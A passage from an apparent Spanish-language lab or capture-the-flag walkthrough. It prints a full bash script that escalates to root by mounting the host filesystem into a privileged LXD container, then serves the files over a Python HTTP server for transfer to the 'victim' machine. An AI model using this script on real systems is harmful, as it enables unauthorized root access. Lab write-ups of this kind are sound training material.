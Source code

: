 - El script que vamos a utilizar  es el siguiente

```bash
function helpPanel(){
  echo -e "\nUsage:"
  echo -e "\t[-f] Filename (.tar.gz alpine file)"
  echo -e "\t[-h] Show this help panel\n"
  exit 1
}

function createContainer(){
  lxc image import $filename --alias alpine && lxd init --auto
  echo -e "[*] Listing images...\n"
  lxc init alpine privesc -c security.privileged=true
  lxc config device add privesc giveMeRoot disk source=/ path=/mnt/root recursive=true
  lxc start privesc
  lxc exec privesc sh
  cleanup
}

function cleanup(){
  echo -en "\n[*] Removing container..."
  lxc stop privesc && lxc delete privesc && lxc image delete alpine
  echo " [√]"
}

set -o nounset
set -o errexit

declare -i parameter_enable=0; while getopts ":f:h:" arg; do
  case $arg in
    f) filename=$OPTARG && let parameter_enable+=1;;
    h) helpPanel;;
  esac
done

if [ $parameter_enable -ne 1 ]; then
  helpPanel
else
  createContainer
fi
```

- Nos transferimos tanto el script como el fichero `.tar.gz` a la maquina victima dentro del directorio `/dev/shm` debido a que dentro del directorio `/tmp` me daba problemas al ejecutarlo y no ganaba acceso a la maquina

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Descargamos los ficheros
